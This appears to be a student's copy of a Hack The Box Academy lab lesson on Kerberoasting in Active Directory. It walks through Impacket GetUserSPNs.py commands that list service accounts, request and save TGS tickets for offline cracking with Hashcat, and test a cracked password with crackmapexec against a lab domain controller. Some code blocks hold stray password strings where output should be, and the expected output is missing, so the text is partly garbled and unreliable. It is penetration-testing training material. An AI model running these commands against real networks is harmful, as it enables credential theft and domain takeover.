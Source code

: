 ## Table of Contents

  - [Table of Contents](#Table\of\Contents)
  - [Kerberoasting Overview](#Kerberoasting\Overview)
- [Performing The Kerberoasting attack](#performing\the\kerberoasting\attack)
      - [Installing Impacket using Pip](#Installing\Impacket\using\Pip)
      - [Listing GetUserSPNs.py Help Options](#Listing\GetUserSPNs.py\Help\Options)
      - [Listing SPN Accounts with GetUserSPNs.py](#Listing\SPN\Accounts\with\GetUserSPNs.py)
      - [Requesting all TGS Tickets](#Requesting\all\TGS\Tickets)
      - [Requesting a Single TGS ticket](#Requesting\a\Single\TGS\ticket)
      - [Saving the TGS Ticket to an Output File](#Saving\the\TGS\Ticket\to\an\Output\File)
      - [Testing Authentication against a Domain Controller](#Testing\Authentication\against\a\Domain\Controller)

## Table of Contents

  - [Kerberoasting Overview](#Kerberoasting\Overview)
- [Performing The Kerberoasting attack](#performing\the\kerberoasting\attack)
      - [Installing Impacket using Pip](#Installing\Impacket\using\Pip)
      - [Listing GetUserSPNs.py Help Options](#Listing\GetUserSPNs.py\Help\Options)
      - [Listing SPN Accounts with GetUserSPNs.py](#Listing\SPN\Accounts\with\GetUserSPNs.py)
      - [Requesting all TGS Tickets](#Requesting\all\TGS\Tickets)
      - [Requesting a Single TGS ticket](#Requesting\a\Single\TGS\ticket)
      - [Saving the TGS Ticket to an Output File](#Saving\the\TGS\Ticket\to\an\Output\File)
      - [Testing Authentication against a Domain Controller](#Testing\Authentication\against\a\Domain\Controller)


Our enumeration up to this point has given us a broad picture of the domain and potential issues. We have enumerated user accounts and can see that some are configured with Service Principal Names. Let's see how we can leverage this to move laterally and escalate privileges in the target domain.

## Kerberoasting Overview

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments. This attack targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts. - **What It Is**: Kerberoasting is a technique used for lateral movement or privilege escalation in Active Directory (AD) environments.
    
- **Target**: Focuses on Service Principal Names (SPNs), which are unique identifiers for service instances in AD.
    
- **Why SPNs**: Service accounts running these SPNs often have elevated privileges, making them attractive targets.
    
- **Access Needed**: Minimal access is required to perform the attack—just a domain user account or SYSTEM level access on a domain-joined host.
    
- **How It Works**:
    
    1. Any domain user can request a Kerberos ticket for any SPN.
    2. The Kerberos ticket is encrypted with the service account's NTLM hash.
- **Attack Vector**:
    
    1. Retrieve the encrypted Kerberos ticket.
    2. Subject it to an offline brute-force attack to potentially obtain the cleartext password.
- **Tools**: Tools like Hashcat can be used for the brute-force attack.
    
- **Risks**:
    
    1. Service accounts are often local administrators or part of highly privileged domain groups.
    2. Can be used across forest trusts, increasing the attack surface.



# Performing The Kerberoasting attack
Depending on your position in a network, this attack can be performed in multiple ways:

- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.

Several tools can be utilized to perform the attack:

- Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.

#### Installing Impacket using Pip

  Installing Impacket using Pip

```shell
gdxqpardo@htb[/htb]$ sudo python3 -m pip install .
```


#### Listing GetUserSPNs.py Help Options

  Listing GetUserSPNs.py Help Options

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -h
```


We can start by just gathering a listing of SPNs in the domain. To do this, we will need a set of valid domain credentials and the IP address of a Domain Controller. We can authenticate to the Domain Controller with a cleartext password, NT password hash, or even a Kerberos ticket. For our purposes, we will use a password. Entering the below command will generate a credential prompt and then a nicely formatted listing of all SPN accounts. From the output below, we can see that several accounts are members of the Domain Admins group. If we can retrieve and crack one of these tickets, it could lead to domain compromise. It is always worth investigating the group membership of all accounts because we may find an account with an easy-to-crack ticket that can help us further our goal of moving laterally/vertically in the target domain.

#### Listing SPN Accounts with GetUserSPNs.py

  Listing SPN Accounts with GetUserSPNs.py

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend

```

We can now pull all TGS tickets for offline processing using the `-request` flag. The TGS tickets will be output in a format that can be readily provided to Hashcat or John the Ripper for offline password cracking attempts.

#### Requesting all TGS Tickets

  Requesting all TGS Tickets

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 

```

```shell-session
HTB_@cademy_stdnt!
```

```shell-session
Academy_student_AD!
```
Welcome2021
Spring@18
We can also be more targeted and request just the TGS ticket for a specific account. Let's try requesting one for just the `sqldev` account.
#### Requesting a Single TGS ticket

  Requesting a Single TGS ticket

```shell
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev

```

To facilitate offline cracking, it is always good to use the `-outputfile` flag to write the TGS tickets to a file that can then be run using Hashcat on our attack system or moved to a GPU cracking

#### Saving the TGS Ticket to an Output File

  Saving the TGS Ticket to an Output File

```shell-session
gdxqpardo@htb[/htb]$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs

```

Here we've written the TGS ticket for the `sqldev` user to a file named `sqldev_tgs`. Now we can attempt to crack the ticket offline using Hashcat hash mode `13100`.



#### Testing Authentication against a Domain Controller

  Testing Authentication against a Domain Controller

```shell
gdxqpardo@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```








